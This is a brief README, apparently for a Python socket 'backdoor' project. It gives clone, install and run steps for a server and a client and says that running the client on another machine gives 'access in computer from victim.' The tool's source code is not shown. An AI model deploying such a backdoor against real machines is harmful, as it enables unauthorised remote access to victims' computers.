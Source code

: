# Backdoor

Example of a server and a client keep communication using sockets in python. First of all change the IP from HOST in client.py.


Steps:


clone the project

```sh
$ git clone https://github.com/jmessiass/backdoor.git
```
install requirements and execute the server using python 3.
```sh
$ cd backdoor
$ pip install -r requirements.txt
$ python3 server.py -p 12345 (choose any port)
```
in another machine, execute the client (don't forget of using the same port from server)

```sh
$ python client.py
```
if everything occurred good you gain access in computer from victim.
